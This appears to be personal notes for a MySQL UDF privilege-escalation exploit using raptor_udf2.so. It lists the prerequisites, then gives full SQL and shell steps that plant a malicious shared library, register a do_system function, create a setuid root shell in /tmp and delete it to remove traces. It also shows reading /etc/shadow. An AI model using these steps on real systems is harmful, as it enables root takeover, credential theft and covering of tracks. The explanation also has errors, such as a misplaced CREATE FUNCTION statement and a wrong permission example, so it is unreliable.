 ## Requirements for MySql UDF exploit and how to verify each requirement
1. Current user must be able to connect to MySql
    - Check this by running: `mysql -u <username> -p`
    - If this connects, stay in MySql and verify further requirements

2. The MySql user must have `FILE` privileges to be able to read from or write to files on the
   server, using SQL statements
    - Verify by running: `SHOW GRANTS FOR <username>;`
    - Look for: `GRANT FILE ON *.* TO 'username@host'`

3. The MySql user must have `CREATE FUNCTION` privileges to register new functions — either 
   stored functions or UDFs — into the database
    - In the same output, look for: `GRANT CREATE FUNCTION ON *.* TO 'your_user'@'host'`

4. The OS-level user must have write access to the plugin directory so a .so file can be saved 
   there and loaded as a UDF
    - Verify by first running: `SHOW VARIABLES LIKE 'plugin_dir';`
    - Copy the output path, something like `/usr/lib/mysql/plugin/`
    - Exit MySql and run: `ls -ld <copied path>`
    - Look for write permissions for that path. Something like: `drwxr-xr-x`
    - Verify which user is running MySql: `ps aux | grep mysqld`
    - The first column of the output will show the user running MySql (os-level user)
    - Test if writing is possible with: `sudo -u <os-user> touch /usr/lib/mysql/plugin/test.txt`

5. For this exploit in particular you must be able to run MySql as sudo
    - Run: `sudo -l` and look for MySql in the list of programs

6. Final requirement is that you're able to transfer malicious raptor_udf2.so file onto the
   victim machine, using wget, scp or another method (research may be needed)

## Exploitation steps

Once you've verified all requirements for MySql UDF exploit you can begin exploitation

- Start root MySql server
    sudo mysql -u root

- Switch to internal MySql database to be able to run functions
    use MySql;

- Create temporary table to hold binary data
    CREATE TABLE foo (line blob);

- Load compiled .so file into table and convert to sql readable format
    INSERT INTO foo VALUES (load_file('/home/user/raptor_udf2.so'));

- Dump sql readable format to MySql plugin directory
    SELECT * FROM foo INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';

- Register the malicious `do_system` function with MySql for command injection
    CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';

- Copy bash environment to globally accessible directory to be executed and run as root bash 
  environment
    SELECT do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

- Exit MySql server
    exit;

- Run rootbash environment (root shell) with persisted permissions
    /tmp/rootbash -p

- Remove footprint before exiting root shell
    rm /tmp/rootbash

## Exploit explanation

A temporary table is created in MySQL to hold binary data, enabling the transfer of a malicious 
shared object (.so) file into the server — without requiring direct filesystem access or manual 
placement in the MySQL plugin directory, which is typically restricted.

The .so file contains a compiled version of a C script that defines a function capable of 
executing system-level commands. By using SQL statements, the binary contents of this file are 
read into the database and then added to the MySQL plugin directory using:
    `CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';`

Once the file is in place, the following SQL statement registers the function, prepping it to be 
used with your MySql environment:
    `CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';`

This command links the SQL function name `do_system` to the actual `do_system()` function inside 
the shared library. From that point on, do_system() can be called from within MySQL and used to 
execute arbitrary system commands by passing them as arguments:
    `SELECT do_system('cat /etc/shadow');`

Using this can allow for things like reading `/etc/shadow` files or anything else to gain control 
of the victim machine.
